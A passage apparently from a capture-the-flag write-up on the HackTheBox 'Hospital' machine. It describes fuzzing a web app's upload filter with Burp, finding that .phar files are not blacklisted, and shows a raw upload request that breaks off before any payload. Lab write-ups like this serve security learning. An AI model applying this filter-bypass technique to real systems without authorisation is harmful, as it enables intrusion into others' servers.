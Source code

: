 ![Burp configuration](/assets/img/Hospital/Hospital_03.png)

Then after running through these payloads we could go through all of the responses. When checking through these responses it became clear that the **phar** format was not blacklisted.

```
POST /upload.php HTTP/1.1
Host: hospital.htb:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------9374035178820981983028419167
Content-Length: 7432
Origin: http://hospital.htb:8080
Connection: keep-alive
Referer: http://hospital.htb:8080/index.php
Cookie: PHPSESSID=24dc8cn9ieqmsmji6btnbkasei
Upgrade-Insecure-Requests: 1

-----------------------------9374035178820981983028419167
```
